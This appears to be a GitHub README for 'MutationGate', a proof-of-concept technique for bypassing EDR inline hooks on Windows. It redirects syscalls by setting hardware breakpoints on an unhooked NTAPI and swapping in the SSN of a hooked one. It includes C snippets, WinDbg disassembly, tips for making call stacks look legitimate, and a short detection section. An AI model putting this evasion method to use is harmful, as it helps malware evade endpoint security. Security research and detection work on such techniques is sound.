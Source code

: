 # MutationGate
MutationGate is a new approach to bypass EDR's inline hooking by utilizing hardware breakpoint to redirect the syscall.

It works by calling an unhooked NTAPI and replacing the unhooked NTAPI's SSN with hooked NTAPI's. In this way, the syscall is redirected to the hooked NTAPI's, and the inline hook can be bypassed without loading the 2nd ntdll module or modifying bytes within loaded ntdll's memory space. 

The provided project is only a `POC`, not a comprehensive implementation. For instance, you could use this approach to set hardware breakpoints for a set of functions. 

The function can also be WIN32API. For instance, we can set the 1st hbp at `DrawText` to redirect the execution to `NtDrawText`, and the 2nd hbp replaces the SSN saved in RAX. In this way, module `kernel32.dll` is not skipped, and the call stack looks more legitimate. 

## Description
EDR tends to set inline hooks for various NTAPI, especially those are usually leveraged in malware, such as `NtAllocVirtualMemory`, `NtOpenProcess`, etc. While other NTAPI that are not usually leveraged in malware tend not to have inline hook, such as `NtDrawText`. It is very unlikely that an EDR set inline hook for all NTAPI.   

Assume NTAPI `NtDrawText` is not hooked, while NTAPI `NtQueryInformationProcess` is hooked, the steps are as follows:

1. Get the address of `NtDrawText`. It can be achieved by utilizing `GetModuleHandle` and `GetProcAddress` combination, or a custom implementation of them via PEB walking.
```c
  pNTDT = GetFuncByHash(ntdll, 0xA1920265);	//NtDrawText hash
  pNTDTOffset_8 = (PVOID)((BYTE*)pNTDT + 0x8);	//Offset 0x8 from NtDrawText
```
2. Prepare arguments for `NtQueryInformationProcess`
3. Set a hardware breakpoint at `NtDrawText+0x8`, when the execution reaches this address, SSN of `NtDrawText` is saved in RAX, but syscall is not called yet.

```windbg
0:000> u 0x00007FFBAD00EB68-8
ntdll!NtDrawText:
00007ffb`ad00eb60 4c8bd1          mov     r10,rcx
00007ffb`ad00eb63 b8dd000000      mov     eax,0DDh
00007ffb`ad00eb68 f604250803fe7f01 test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffb`ad00eb70 7503            jne     ntdll!NtDrawText+0x15 (00007ffb`ad00eb75)
00007ffb`ad00eb72 0f05            syscall
00007ffb`ad00eb74 c3              ret
00007ffb`ad00eb75 cd2e            int     2Eh
00007ffb`ad00eb77 c3              ret
```
4. Retrieve the SSN of `NtQueryInformationProcess`. Inside the exception handler, update RAX with NtQueryInformationProcess' SSN. I.e., the original SSN was replaced.
```c
...<SNIP>...
PVOID GetFuncByHash(IN HMODULE hModule, uint32_t Hash)
{
	PBYTE pBase = (PBYTE)hModule;
	PIMAGE_DOS_HEADER	pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
	if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return NULL;
	PIMAGE_NT_HEADERS	pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
	if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return NULL;

	IMAGE_OPTIONAL_HEADER	ImgOptHdr = pImgNtHdrs->OptionalHeader;
	PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PDWORD FunctionNameArray = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
	PDWORD FunctionAddressArray = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
	PWORD  FunctionOrdinalArray = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);
	for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++) 
	{
		CHAR* pFunctionName = (CHAR*)(pBase + FunctionNameArray[i]);
		PVOID pFunctionAddress = (PVOID)(pBase + FunctionAddressArray[FunctionOrdinalArray[i]]);
		if (Hash == ROR13Hash(pFunctionName)) 
		{
			return pFunctionAddress;
		}
	}
	return NULL;
}
...<SNIP>...
```
5. Since we called `NtDrawText` but with `NtQueryInformationProcess`' arguments, the call should be failed. However, since we changed the SSN, the syscall is successful. 
```c
		fnNtQueryInformationProcess pNTQIP = (fnNtQueryInformationProcess)pNTDT;
		NTSTATUS status = pNTQIP(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);	
```


## Example

![example](screenshot/poc.png)

In this example, NtDrawtext's SSN is `0xdd`, `NtQueryInformationProcess`' SSN is `0x19`, the address of NtDrawText is `0x00007FFBAD00EB60`

The call is made to NtDrawText's address, but with NtQueryInformationProcess. Since the SSN is changed from `0xdd` to `0x19`, the syscall is successful.

## Disclaimer
1. MutationGate is not an extension or variant of various Gate. Because those Gate focus more on retrieving SSN of NTAPI, MutationGate focuses on bypassing the inline hook in NTAPI.
2. MutationGate is able to bypass inline hook in NTAPI, however, the individual technique does not guarantee to bypass EDR, because EDR has multiple detection dimensions, inline hook is one of them.
3. The project is a POC, not a complete and comprehensive implementation.



## Advantages of MutationGate Approach
So far, some classic and common approaches to bypass EDR's inline hook include but are not limited to the following approaches:
1. Load the 2nd ntdll module
2. Copy a fresh ntdll's text section to overwrite hooked ntdll's text section
3. Overwrite hooked codes(syscall stub) with fresh code
4. More...

The above techniques involve the modification of loaded ntdll, or loading of the 2nd ntdll. These behaviors could be detected by EDR. 

While MutationGate is not the only approach that untouches loaded ntdll, it does have the advantage of not modifying the loaded ntdll module, which decreases the possibility of getting detected. 

And, it is very simple, no need to modify other registers, etc.


## Detection
It is possible to detect MutationGate technique.

1. The `AddVectoredExceptionHandler` call could look suspicious in a normal program.
2. In the POC, NTAPI is called directly, which could be weird in a normal program. However, it can be resolved by adding 1 more hardware breakpoint at `DrawText`, directing the execution to `NtDrawText` and triggering the 2nd hardware breakpoint that replaces SSN.
3. Call stack in kernel space could reveal clues.

## Credits and References
